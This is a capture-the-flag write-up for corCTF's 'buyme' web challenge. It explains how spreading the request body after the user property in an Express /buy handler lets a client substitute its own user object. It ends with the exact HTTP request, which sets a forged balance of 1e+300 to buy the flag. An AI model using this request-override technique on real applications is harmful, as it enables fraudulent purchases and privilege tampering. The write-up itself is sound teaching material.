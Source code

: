 ## web/buyme
> I made a new site to buy flags! But no hoarding, okay :<

> https://buyme.be.ax

> [buyme.tar.xz](buyme.tar.xz)

The source was provided this time, so I started with a code audit. It was a typical 'shop' CTF webapp for 'flags' built on Express, using in-memory JavaScript `Map`s for state.
There were functions for registration, login, purchasing and viewing flags, but not changing a user's balance. So I focused on the `buy` endpoint.
```js
router.post("/buy", requiresLogin, async (req, res) => {
    if(!req.body.flag) {
        return res.redirect("/flags?error=" + encodeURIComponent("Missing flag to buy"));
    }

    try {
        db.buyFlag({ user: req.user, ...req.body });
    }
    catch(err) {
        return res.redirect("/flags?error=" + encodeURIComponent(err.message));
    }

    res.redirect("/?message=" + encodeURIComponent("Flag bought successfully"));
});
```

A subtle bug jumped out at me, as I'd run into it several days beforehand on a personal project.
The call to `db.buyFlag` uses the [spread operator](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Spread_syntax#spread_in_object_literals) `...req.body`, but it's used after setting the user property. This allows the user property to be overriden by the contents of `req.body`. `req.body` is just the request body, so we can set the user arbitrarily.

The `buy` endpoint requires login, so I registered a user and extracted the `user` cookie.
I also visited the shop page, to get the name and price of the target flag (`corCTF`).

```http
POST /api/buy HTTP/1.1
Content-Type: application/json
Cookie: user=s%3Apl4nty.WTNCqX1%2F%2F4sICQw5z2kLMj5e%2FpH4UNAvqYBU5wAGs%2Bo

{
	"flag":  "corCTF",
    "user": {
        "user":"pl4nty",
        "money":1e+300,
        "flags":[]
    }
}
```

> Found. Redirecting to `/?message=Flag%20bought%20successfully`

